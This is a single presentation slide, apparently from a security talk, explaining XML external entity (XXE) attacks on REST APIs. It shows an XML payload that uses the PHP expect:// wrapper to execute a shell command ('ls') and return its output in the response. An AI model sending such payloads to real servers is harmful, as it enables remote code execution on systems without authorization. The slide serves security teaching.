

# XXE (Remote Code Execution)
Most REST interfaces take raw XML to de-serialize into method parameters of request handling classes.
XXE Example when the name element is echoed back in the HTTP response to the posted XML which is parsed whole by the REST API:

<?xml encoding=“utf-8” ?>
<!DOCTYPE Customer [<!ENTITY y SYSTEM ‘expect://ls’> ]>
<Customer>
<name>&y;</name>
</Customer>
*See XXE: advanced exploitation, d0znpp, ONSEC
*expect protocol requires pexpect module to be loaded in PHP
*joernchen has another example at https://gist.github.com/joernchen/3623896